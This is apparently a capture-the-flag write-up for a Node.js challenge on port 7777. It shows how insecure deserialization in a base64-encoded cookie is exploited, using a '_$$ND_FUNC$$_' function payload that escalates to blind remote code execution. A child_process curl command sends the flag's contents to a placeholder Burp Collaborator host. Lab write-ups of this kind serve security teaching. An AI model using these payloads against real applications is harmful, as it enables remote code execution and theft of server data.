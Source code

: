 ## Writeup:

1. Identify that the webserver running on 7777 is runned by nodejs (Powered by Express header)

2. Identify the Insecure NodeJs object deserialization inside the cookie PHPSESSID by encoding the following value: 
> {"username": "_$$ND_FUNC$$_function (){ return 'hi'; }()" ,"country":"Serbia","city":"Belgrade"} -> base64  

3. That "hi" should get reflected.

4. Since we identified the vulnerability lets escalate it to Blind RCE by starting Burp Collaborator and encoding the following value into base64:

> {"username":"_$$ND_FUNC$$_function(){\n require('child_process').exec('curl http://COLLABORATORURL/$(cat /flag)/ ', function(error, stdout, stderr) { console.log(stdout) });\n }()","country":"india","city":"Delhi"} -> base64  

NOTE: change the collaborator url.

5. Inside collaborator HTTP and DNS traffic we should recive a successful hit containing our flag.

